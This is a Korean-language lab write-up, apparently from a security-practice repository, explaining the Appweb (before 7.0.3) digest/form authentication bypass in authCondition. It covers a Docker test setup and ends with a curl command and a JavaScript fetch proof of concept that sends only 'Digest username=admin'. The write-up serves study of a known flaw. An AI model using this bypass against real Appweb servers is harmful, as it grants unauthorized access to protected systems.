

#### Contributors
김윤성(@KIMSEOUNSUNG)

### 1. 개요
- Appweb : Embedthis Software LLC에 의해 개발되고 유지되는 오픈소스 GPL기반의 임베디드 웹 서버
- Appweb은 basic, digest 등과 같은 다양한 인증 방식을 지원
- 7.0.3 버전 이전의 Appweb에서는 http/httpLib.c의 authCondition 함수와 관련된 논리적 결함이 발견되어 위조된 HTTP 요청을 사용하여 폼 및 다이제스트 로그인 유형에 대한 인증을 우회할 수 있음.

### 2. 취약점의 원인

- 인증 메커니즘이 잘못된 논리로 구현되어 취약점이 발생함.

- digest인증에서는 nonce, uri, response와 같은 여러 매개변수가 필요하지만 Appweb의 취약한 버전에서는 이러한 매개변수 없이 인증 요청을 올바르게 처리함
- 다시 말 해, 공격자는 필요한 매개변수 없이 인증을 우회할 수 있게 됨.

### 3. 환경구축(가상머신 설정)

- VMware에서 실행한 Ubuntu 가상 머신에서 Docker를 실행시키기 위해 다음 명령을 실행함.

    `sudo systemctl start docker`

- 위조된 HTTP 요청을 사용하여 digest 로그인 유형에 대한 인증을 우회해야 하므로, HTTP 클라이언트 도구가 필요함.

- curl 도구를 사용하기 위해 명령어 사용

  `sudo apt install curl`

- curl http://127.0.0.1:8001 - 
기본 요청으로 인증이 필요한지 확인

  `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8001`

해당 요청으로 통해 인증 우회 시도가 가능함.
- Docker는 컨테이너 기반의 애플리케이션 플랫폼으로, 이를 통해 Appweb 7.0.1 서버 구동
- digest 인증을 사용하여 Appweb 7.0.1 서버를 시작하기 위해 다음 명령을 실행한다.

   `docker-compose up -d`

- http://127.0.0.1:8001에 접속하면, digest인증이 요구되는 로그인 창이 열림
- 해당 페이지에서 실습을 시작할 수 있음

### 4. 실습

- 잘못된 로직때문에 발생한 취약점(digest인증)이 발생되었기 때문에, Authorization 헤더를 사용하여 digest 및 form 인증을 우회할 수 있음

- fetch함수를 사용한다.

   `fetch('http://localhost:8001',~~)`

- 이 함수를 사용하는 js코드는 HTTP요청을 생성하고 실행하는 데 사용된다. 

- 원래 digest인증에서는 username, realm, nonce, uri, qop, nc, cnonce, response, opaque 등의 다양한 매개변수들이 필요하다.

다음은 digest의 예시 코드이다.

`GET /resource HTTP/1.1
Host: example.com
Authorization: 
Digest username="user",
               realm="testrealm@host.com",
               nonce="dcd98b7102dd2f0e8b11d0f600bfb0c093",
               uri="/resource",
               qop=auth,
               nc=00000001,
               cnonce="0a4f113b",
               response="6629fae49393a05397450978507c4ef1",
               opaque="5ccc069c403ebaf9f0171e9517f40e41"`

- 그러나 취약점으로 인해 'Authorization':Digest username=admin' 만으로 digest 인증을 뚫을 수 있음.

### 5. PoC

`fetch('http://localhost:8001', {
    method: 'GET',
    headers: {
        'Authorization': 'Digest username=admin'
    }
})`